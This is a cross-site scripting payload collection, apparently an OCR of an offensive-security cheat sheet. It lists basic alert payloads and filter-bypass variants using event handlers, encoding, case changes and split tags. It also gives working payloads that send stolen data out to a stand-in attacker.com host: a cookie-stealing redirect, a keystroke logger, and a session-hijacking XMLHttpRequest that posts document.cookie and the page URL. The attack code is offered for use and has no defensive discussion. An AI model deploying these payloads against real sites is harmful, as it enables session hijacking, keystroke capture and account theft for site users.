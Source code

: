 ##### **XSS Payloads Collection**

**Basic Payloads:**

```jsx
// Simple alert
<script>alert('XSS')</script>

// Cookie theft
<script>document.location='<http://attacker.com/steal.php?c='+document.cookie></script>

// Keylogger
<script>
document.onkeypress = function(e) {
    var key = e.key;
    new Image().src = '<http://attacker.com/log.php?key=>' + key;
}
</script>

```

**Filter Bypass Techniques:**

```jsx
// Without script tags
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>

// Encoding bypasses
<script>alert(String.fromCharCode(88,83,83))</script>  // "XSS"
<script>eval(atob('YWxlcnQoMSk='))</script>  // Base64

// Case variation
<ScRiPt>alert(1)</ScRiPt>

// Breaking up keywords
<scr<script>ipt>alert(1)</scr</script>ipt>

// Using HTML entities
&lt;script&gt;alert(1)&lt;/script&gt;

```

##### **Advanced XSS Exploitation**

**Session Hijacking:**

```jsx
<script>
// Steal session and send to attacker
var xhr = new XMLHttpRequest();
xhr.open('POST', '<http://attacker.com/steal>', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cookie=' + encodeURIComponent(document.cookie) +
         '&url=' + encodeURIComponent(window.location.href));
</script>

```

